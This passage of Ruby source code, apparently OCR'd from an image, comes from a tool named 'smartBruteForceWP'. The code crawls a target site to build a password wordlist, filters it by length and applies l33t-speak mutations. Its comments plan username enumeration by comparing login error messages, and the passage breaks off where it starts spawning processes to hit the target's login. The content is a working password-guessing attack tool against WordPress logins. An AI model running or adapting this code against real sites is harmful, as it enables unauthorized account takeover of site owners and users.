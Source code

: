 
      'l' => '1', 'L' => '1', 'l' => '!', 'L' => '!', 'l' => '|', 'L' => '|',

      'o' => '0', 'O' => '0',

      's' => '5', 'S' => '5',

      't' => '7', 'T' => '7', 't' => '+', 'T' => '+',
    }

    file = File.open('smartBruteForceWP.log', File::WRONLY | File::APPEND)
      @options.logger = Logger.new(file)
      @options.logger.level = Logger::DEBUG
    end
  end

  def run 
    if parsed_options?
      # @todo Before we build the word list lets verify that we have a vaild
      # path for login and confirm that that the user we are using is valid
      # This can be accomplished be checking the returnvalue of logging in
      # with one character for the pass and the user and seeing if the
      # response is Invalid username vs Invalid password.

      # Generate the wordlist.  We want words greater than 5 characters
      # and less then 15.  We would also like to perform some l33t speak
      # mutations on the words.
      @options.logger.debug("#{Process.pid}: Generating wordlist (#{options.file}) from #{options.host}")

      ws = Wordlist::Builders::Website.build(
        @options.file,
        :host => @options.host
      )

      @options.logger.debug("#{Process.pid}: Building a wordlist from (#{options.file})")

      list = Wordlist::FlatFile.new(
        @options.file,
        :max_length => 15,
        :min_length => 5
      )

      @options.logger.debug("mutating list with #{@mutations.inspect}")

      build_mutations! list

      # Create a bunch of processes for contacting the target site and trying